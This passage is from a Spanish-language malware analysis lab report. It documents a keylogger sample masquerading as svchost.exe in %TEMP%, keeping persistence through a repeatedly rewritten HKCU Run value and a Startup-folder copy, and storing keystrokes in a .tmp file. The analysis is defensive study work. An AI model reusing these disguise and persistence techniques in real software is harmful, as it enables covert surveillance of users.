El listener local debe limitarse al laboratorio. No debe exponerse el puerto 22 mediante NAT, port forwarding o adaptadores bridge.

Al finalizar:

1. Detener la captura.
2. Guardar los logs.
3. Apagar la máquina virtual.
4. Restaurar la instantánea.
5. Verificar que no queden archivos fuera de la VM.


-------------------

Resultado captura de eventos con procmon --> [Procmon](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/8-M9T8/utiles/Logfile.PML)


Resultado captura de trafico con wireshark --> [Wireshark](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/8-M9T8/utiles/trafico.pcapng)


-------------


## 7.4. Análisis de eventos registrados con Process Monitor

Durante la ejecución controlada de `resource-A.exe` se utilizó Process Monitor para registrar la actividad relacionada con procesos, sistema de archivos y Registro de Windows.

La actividad relevante se concentró aproximadamente entre:

```text
12:40:42.379 y 12:44:33.641
```

El análisis permitió identificar dos procesos relacionados con la muestra:

|  PID | Proceso          | Ruta                                              | Proceso padre    |
| ---: | ---------------- | ------------------------------------------------- | ---------------- |
| 1732 | `resource-A.exe` | `C:\Users\usuario\Desktop\resource-A.exe`         | `cmd.exe`        |
| 3508 | `svchost.exe`    | `C:\Users\usuario\AppData\Local\Temp\svchost.exe` | `resource-A.exe` |

La ruta del segundo proceso permite diferenciarlo del proceso legítimo de Windows, que normalmente se encuentra en:

```text
C:\Windows\System32\svchost.exe
```

### 7.4.1. Copia y ejecución de la muestra

El proceso original comprobó si existía el archivo:

```text
C:\Users\usuario\AppData\Local\Temp\svchost.exe
```

Al no encontrarlo, Process Monitor registró su creación mediante una operación `CreateFile` con resultado satisfactorio:

```text
Operation:      CreateFile
Disposition:    OverwriteIf
OpenResult:     Created
AllocationSize: 29696
Result:         SUCCESS
```

Posteriormente se registró la escritura del ejecutable:

```text
Operation: WriteFile
Path:      C:\Users\usuario\AppData\Local\Temp\svchost.exe
Result:    SUCCESS
```

La secuencia observada fue:

```text
resource-A.exe
       │
       ├── crea %TEMP%\svchost.exe
       ├── escribe el contenido del ejecutable
       ├── inicia la nueva copia
       └── finaliza
```

El proceso instalado se ejecutó con el PID 3508 y tuvo como proceso padre a `resource-A.exe`, lo que confirma dinámicamente el comportamiento observado en el método `OK.INS()`.

### 7.4.2. Persistencia mediante la clave Run

El proceso `%TEMP%\svchost.exe` realizó operaciones `RegSetValue` sobre:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
ba4c12bee3027d94da5c81db2d196bfd
```

El valor almacenado fue:

```text
"C:\Users\usuario\AppData\Local\Temp\svchost.exe" ..
```

Los eventos mostraron:

```text
Tipo:      REG_SZ
Resultado: SUCCESS
```

La escritura no se realizó una única vez. Durante la captura se registraron numerosas operaciones sobre el mismo valor, con un intervalo aproximado de un segundo.

Este comportamiento indica que la muestra no solo establece persistencia, sino que comprueba o restaura periódicamente la entrada para evitar que sea eliminada durante la ejecución.

La persistencia confirmada dinámicamente es:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    │
    └── ba4c12bee3027d94da5c81db2d196bfd
        = "%TEMP%\svchost.exe" ..
```

No se observó una escritura efectiva en:

```text
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

El proceso se ejecutó con nivel de integridad medio, por lo que la escritura en `HKLM` puede haber fallado por falta de privilegios administrativos.

### 7.4.3. Persistencia mediante la carpeta Startup

Process Monitor también registró la creación del archivo:

```text
C:\Users\usuario\AppData\Roaming\Microsoft\Windows\
Start Menu\Programs\Startup\
ba4c12bee3027d94da5c81db2d196bfd.exe
```

El evento presentó:

```text
Operation:      CreateFile
Disposition:    OverwriteIf
OpenResult:     Created
Result:         SUCCESS
```

Esta operación confirma un segundo mecanismo de persistencia basado en la carpeta de inicio del usuario.

Por tanto, la muestra utiliza dos mecanismos redundantes:

* Entrada en `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.
* Copia del ejecutable en la carpeta Startup.

### 7.4.4. Creación del archivo asociado al keylogger

El proceso malicioso intentó abrir inicialmente:

```text
C:\Users\usuario\AppData\Local\Temp\svchost.exe.tmp
```

Al no existir, el archivo fue creado posteriormente mediante una operación `CreateFile` con resultado `SUCCESS`.

Después se observaron operaciones periódicas de creación o sobrescritura sobre el mismo archivo, aproximadamente cada 18 o 19 segundos.

La ruta coincide con la configuración identificada en el análisis estático:

```csharp
File.WriteAllText(
    this.LogsPath,
    this.Logs
);
```

donde `LogsPath` se genera añadiendo la extensión `.tmp` a la ruta del ejecutable.

El comportamiento dinámico observado es:

```text
%TEMP%\svchost.exe
       │
       └── %TEMP%\svchost.exe.tmp
              └── actualización periódica
```

La creación y actualización del archivo son coherentes con el almacenamiento local de las pulsaciones capturadas por el keylogger.

El registro de Process Monitor confirma la existencia y actualización periódica del fichero, aunque no permite visualizar directamente el contenido de las teclas almacenadas.

### 7.4.5. Actividad de red no registrada

El archivo de Process Monitor analizado no contiene operaciones como:

```text
TCP Connect
TCP Send
TCP Receive
UDP Send
UDP Receive
```

Por tanto, esta captura no permite asociar directamente el proceso `%TEMP%\svchost.exe` con la conexión al puerto TCP 22 registrada en Wireshark.

La ausencia de eventos puede deberse a que:

* La categoría `Network Activity` no estaba activada.
* Los filtros excluyeron las operaciones de red.
* El archivo PML se guardó únicamente con los eventos visibles.
* La captura se centró en archivos y Registro.

La conexión C2 deberá documentarse mediante la captura de Wireshark y, si se desea correlacionar con el proceso, mediante una nueva ejecución de Process Monitor con los filtros:

```text
Process Name is svchost.exe
PID is <PID de la muestra>
Operation begins with TCP
```

### 7.4.6. Comportamientos confirmados

| Comportamiento                             | Resultado     |
| ------------------------------------------ | ------------- |
| Ejecución de `resource-A.exe`              | Confirmado    |
| Copia a `%TEMP%\svchost.exe`               | Confirmado    |
| Ejecución de la copia instalada            | Confirmado    |
| Relación padre-hijo                        | Confirmada    |
| Persistencia en HKCU Run                   | Confirmada    |
| Restauración periódica del valor Run       | Confirmada    |
| Copia en la carpeta Startup                | Confirmada    |
| Creación de `svchost.exe.tmp`              | Confirmada    |
| Actualización periódica del archivo `.tmp` | Confirmada    |
| Persistencia efectiva en HKLM              | No observada  |
| Modificación del firewall                  | No observada  |
| Comunicación TCP/22 en Procmon             | No registrada |
| Shell remota                               | No observada  |
| Captura de pantalla                        | No observada  |
| Descarga o actualización                   | No observada  |

### 7.4.7. Valoración

Los eventos registrados con Process Monitor confirman de forma dinámica varios de los comportamientos identificados durante el análisis estático.

La muestra:

1. Se copia en `%TEMP%` utilizando el nombre `svchost.exe`.
2. Ejecuta la copia y finaliza el proceso original.
3. Establece persistencia en la clave Run del usuario.
4. Mantiene periódicamente dicha entrada.
5. Crea una copia adicional en la carpeta Startup.
6. Genera y actualiza un archivo `.tmp` compatible con el almacenamiento del keylogger.

Estos resultados demuestran que `resource-A.exe` desarrolla acciones de instalación, ocultación y persistencia inmediatamente después de su ejecución.

La actividad de red y las funciones que dependen de órdenes remotas deberán analizarse de forma separada, ya que no quedaron registradas en esta captura de Process Monitor.

